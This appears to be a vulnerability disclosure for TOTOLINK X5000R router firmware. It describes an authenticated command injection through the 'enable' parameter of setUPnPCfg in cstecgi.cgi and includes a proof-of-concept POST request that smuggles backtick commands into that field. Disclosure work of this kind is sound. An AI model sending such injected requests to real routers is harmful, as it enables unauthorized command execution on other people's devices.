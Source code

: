 # totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setUPnPCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setUPnPCfg` (at 0x411246), binary /cgi-bin/cstecgi.cgi. The parameter `enable` is passed to 'Uci_set_str' without any check.
![setUPnPCfg](image.png)
Uci_Set_Str passes the parameter `enable` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image-1.png)
![uci_set_str2](image-2.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 62
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setUPnPCfg", "enable": "`ls -l`", "0": ";`wzq`"}
```
![alt text](image-3.png)